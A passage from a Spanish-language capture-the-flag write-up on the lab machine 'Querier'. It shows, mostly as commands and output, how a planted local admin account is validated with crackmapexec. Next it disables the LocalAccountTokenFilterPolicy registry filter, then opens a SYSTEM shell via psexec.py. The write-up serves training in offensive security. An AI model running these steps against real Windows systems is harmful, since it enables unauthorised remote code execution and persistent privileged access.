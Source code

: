 Comprobacion con Crackmapexec para ver si tendriamos el usuario creado y con (Pwned) 
```bash
# crackmapexec smb 10.10.10.125 -u "paco" -p 'paco123$' -d WORKGROUP
SMB         10.10.10.125    445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:WORKGROUP) (signing:False) (SMBv1:False)
SMB         10.10.10.125    445    QUERIER          [+] WORKGROUP\paco:paco123$
```

Vemos que la pass es validad pero no tendriamos posibilidad de conectarnos al no tener el `(Pwned)` 

Puede ocurrir que tengamos credenciales de administrador, pero no tengamos la capacidad de ejecutar comandos.
Esto puede ocurrir porque `LocalAccountTokenFilterPolicy` es un `filtro que previene` que se usen `privilegios elevados` a través de la `red`. 
Solo `aplicaria` para las `Cuentas Administrativas Locales`, `No afectan` a las `Cuentas de Dominios`

Para deshabilitar el `LocalAccountTokenFilterPolicy`, debemos retocar el siguiente registro

```bash
"HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system"
```
Procemos a hacerlo
```bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
The operation completed successfully.
```

Recomprobamos con la herramienta Crackmapexec
```bash
# crackmapexec smb 10.10.10.125 -u "paco" -p 'paco123$' -d WORKGROUP
SMB         10.10.10.125    445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:WORKGROUP) (signing:False) (SMBv1:False)
SMB         10.10.10.125    445    QUERIER          [+] WORKGROUP\paco:paco123$ (Pwn3d!)
```

# Post Explotacion atraves de Usuario Nuevo Creado Paco
Usando la herramienta `psexec.py`
```bash
# psexec.py 'WORKGROUP/paco:paco123$'@10.10.10.125
Impacket v0.9.24.dev1+20210827.162957.5aa97fa7 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.10.125.....
[*] Found writable share ADMIN$
[*] Uploading file pSzSoFOo.exe
[*] Opening SVCManager on 10.10.10.125.....
[*] Creating service SWYm on 10.10.10.125.....
[*] Starting service SWYm.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.292]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

Maquina Rooteda - Surf3rH4ck - K0H4ck
